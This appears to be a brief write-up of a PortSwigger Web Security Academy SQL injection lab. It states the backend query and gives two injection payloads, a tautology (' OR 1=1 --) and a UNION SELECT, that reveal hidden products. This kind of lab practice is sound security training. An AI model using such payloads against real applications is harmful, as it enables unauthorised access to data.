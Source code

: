 

Link=  https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data

![image](https://github.com/user-attachments/assets/c8b2c847-5855-47f3-b518-de00b813e6ff)

End_Goal= We have to display all the products from the site regardless it is Released  or Not

Backend_Query= SELECT * FROM products WHERE category = ‘Gifts’ AND released = 1

Solution 1 = ' OR 1=1 -- 
			
![image](https://github.com/user-attachments/assets/652f3d0b-9078-4c63-a9de-776dc209fc05)

   
Solution 2 = ' UNION SELECT * FROM products -- 
(table_name=products)


![image](https://github.com/user-attachments/assets/2adb4821-552b-4d35-9ef5-f33dea786446)




